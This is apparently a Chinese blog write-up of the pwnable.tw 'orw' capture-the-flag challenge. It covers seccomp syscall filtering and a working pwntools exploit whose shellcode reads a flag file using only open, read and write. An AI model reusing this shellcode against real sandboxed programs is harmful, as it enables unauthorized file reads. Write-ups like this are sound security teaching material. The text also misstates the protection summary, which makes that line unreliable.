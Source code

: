 ```yaml
---
title: 和媳妇一起学Pwn 之 orw(pwnable.tw)
date: 2019-09-01 00:00:00
categories:
- CTF/Pwn
tags: shellcode syscall
---
```


题目地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)


> Only open read write syscall are allowed to use.

## 检查保护

```bash
➜  file orw 
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
➜  checksec orw
[*] '/Users/wangyuxuan/Desktop/pwnable/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

是一个32位的elf，动态链接，没有去符号表，除了栈不可执行没有开启其他保护，而且有读写可执行段。用IDA看一下主函数：


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

发现shellcode是一个函数指针，对应的地址在bss段中，写完shellcode就可以直接执行了，但是根据题目的提示，shellcode中如果使用系统调用只能用open，write，read三个系统调用，那这个是怎么限制的呢？

## seccomp沙箱

猜测跟orw_seccomp函数有关，点进去如下：

```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

看到prctl这个函数，应该全名是process control(进程控制)，猜测可能跟这个有关，参考链接：

- [Linux沙箱之seccomp](https://blog.betamao.me/2019/01/23/Linux%E6%B2%99%E7%AE%B1%E4%B9%8Bseccomp/)
- [seccomp学习笔记](https://veritas501.space/2018/05/05/seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

总之就是通过这种方法限制了程序可以使用的系统调用

## 利用

### 本地c代码尝试

因为对系统调用啥的还不是很熟悉，一开始的直觉是，为啥还有用read系统调用。感觉open打开后直接write到标准输出不就完了么。所以先尝试着在本地写一个c程序，只用open，write，read三个系统调用去读一个本地的文件（/flag）。系统调用参数是啥，需要用到什么头文件可以去man手册中查找：

```c
# include <stdio.h>
# include <unistd.h>
# include <fcntl.h>

int main(){
	int fd;
	char a[100];
	fd = open("/flag",0);
	read(fd,a,50);
	write(1,a,50);
	return 0;
}
```
写完就知道刚才那个疑问的答案了，通过open打开的是一个文件描述符，文件内容还在磁盘中。而write输出到标准输出需要从内存中输出，不能直接对两个文件描述符进行操作（标准输出和flag的文件描述符），所以要先把flag读到内存中，然后在从内存中输出。

### exp

这里利用栈上存放了flag位置的字符串，然后随便找了bss段后面作为存储flag的内存位置：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF("./orw")
#io = process(myelf.path)
io  = remote("chall.pwnable.tw",10001)
shellcode = ""
shellcode += shellcraft.i386.pushstr('/home/orw/flag').rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_open',"esp", 0).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_read',"eax", 0x0804A0D7,40).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_write',1, 0x0804A0D7,40).rstrip()
#print shellcode
#print len(asm(shellcode))
io.recv()
io.send(asm(shellcode))
io.interactive()
```

## 疑问

在IDA中看到bss段明明是不可执行的：

```bash
.bss:0804A040 ; Segment type: Uninitialized
.bss:0804A040 ; Segment permissions: Read/Write
.bss:0804A040 ; Segment alignment '32byte' can not be represented in assembly
```

而如果通过gdb调试则发现：

```bash

gdb-peda$ vmmap
Start      End        Perm	Name
......
0x0804a000 0x0804b000 rwxp	/mnt/hgfs/桌面/pwnable/orw/orw
......

```

暂时还不知道为啥